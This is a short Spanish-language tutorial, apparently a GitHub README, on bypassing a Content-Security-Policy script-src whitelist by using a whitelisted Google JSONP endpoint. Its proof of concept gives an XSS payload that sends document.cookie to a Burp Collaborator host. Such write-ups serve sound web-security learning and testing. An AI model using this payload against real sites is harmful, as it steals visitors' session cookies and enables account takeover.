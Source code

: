 
# BYPASS CSP SCRIPT-SRC CON GOOGLE

Las políticas de seguridad de contenido, o csp, son una protección extra para evitar ataques, que comúnmente son los XSS, entre otros. Para saber si un sitio cuenta con CSP, podemos simplemente hacer una request y capturarla, y al ver la respuesta, podríamos ver un header de tipo "Content-Security-Policy" o usando este sitio, que nos dirá que tipo de protecciones tiene. En este caso nos vamos a centrar en la política "SCRIPT-SRC". Esta protección básicamente se resume de esta manera. Cualquier sitio que este en la lista blanca podrá ejecutar ese código, de lo contrario, no ejecutará nada.

### EJEMPLO:

![imagen](1.png)

En la foto se aprecia que todo el codigo que venga de `*.google.com  fonts.googleapis.com *.bootstrap.com` se podrá ejecutar, lo cual es un grave error, ya que si alguno de esos sitios cuenta con algún JSONP, se podrá bypassear nuestra política.

En este caso, si quisiéramos ejecutar un xss en una web que tenga esa política, usaríamos un JSONP que venga de bootstrap o de google.com, ya que están en la lista blanca.

### PRUEBA DE CONCEPTO
Como vimos anteriormente, cualquier codigo que venga de esos 2 sitios será ejecutado en nuestro sitio. Google cuenta con un JSONP, y con ello, podriamos bypassear esa protección.

`https://accounts.google.com/o/oauth2/revoke?callback=`

Ese es nuestro JSONP, y un ejemplo de uso sería este:

`<script src="https://accounts.google.com/o/oauth2/revoke?callback=fetch(%27http://xxx.burpcollaborator.net', {method: 'POST', mode: 'no-cors', body:document.cookie})"></script>`

En ese ejemplo, enviamos las cookies a nuestro cliente burp con un bypass de csp script-src.



Contacto: [Linkedin](www.linkedin.com/in/JairR) [Twitter](https://twitter.com/_niggurath_)
